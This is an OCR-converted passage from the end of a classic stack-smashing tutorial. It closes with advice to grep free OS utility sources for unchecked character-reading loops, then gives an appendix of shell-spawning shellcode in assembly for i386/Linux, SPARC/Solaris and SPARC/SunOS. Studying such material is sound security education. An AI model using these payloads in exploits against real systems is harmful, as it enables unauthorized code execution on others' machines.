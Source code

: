 \documentclass[10pt]{article}
\begin{document}
{a while loop to read one character at a time into a buffer from stdin or some file until the end of line, end of file, 

or some other delimiter is reached. This type of construct usually uses one of these functions: getc(), fgetc(), or 

getchar(). If there is no explicit checks for overflows in the while loop, such programs are easily exploited. To 

conclude, grep(1) is your friend. The sources for free operating systems and their utilities is readily available. 

This fact becomes quite interesting once you realize that many comercial operating s ystems utilities where 

derived from the same sources as the free ones. Use the source d00d.

\appendix
\appendixpage
\section{Shellcode for Different Operating}

\subsection{Systems/Architectures}


\begin{lstlisting}[caption=i386/Linux]
jmp    0x1f
popl   %esi
movl   %esi,0x8(%esi)
xorl   %eax,%eax
movb   %eax,0x7(%esi)
movl   %eax,0xc(%esi)
movb   $0xb,%al
movl   %esi,%ebx
leal   0x8(%esi),%ecx
leal   0xc(%esi),%edx
int    $0x80
xorl   %ebx,%ebx
movl   %ebx,%eax
inc    %eax
int    $0x80
call   -0x24
.string \"/bin/sh\"
\end{lstlisting}


\begin{lstlisting}[caption=SPARC/Solaris]
sethi   0xbd89a, %l6
or      %l6, 0x16e, %l6
sethi   0xbdcda, %l7
and     %sp, %sp, %o0
add     %sp, 8, %o1
xor     %o2, %o2, %o2
add     %sp, 16, %sp
std     %l6, [%sp - 16]
st      %sp, [%sp - 8]
st      %g0, [%sp - 4]
mov     0x3b, %g1
ta      8
xor     %o7, %o7, %o0
mov     1, %g1
ta      8
\end{lstlisting}

\begin{lstlisting}[caption=SPARC/SunOS]
sethi   0xbd89a, %l6
or      %l6, 0x16e, %l6
sethi   0xbdcda, %l7
and     %sp, %sp, %o0
add     %sp, 8, %o1
xor     %o2, %o2, %o2
add     %sp, 16, %sp
std     %l6, [%sp - 16]
st      %sp, [%sp - 8]
st      %g0, [%sp - 4]
mov     0x3b, %g1
mov     -0x1, %l5
ta      %l5 + 1
xor     %o7, %o7, %o0
mov     1, %g1
ta      %l5 + 1
\end{lstlisting}

}
\end{document}

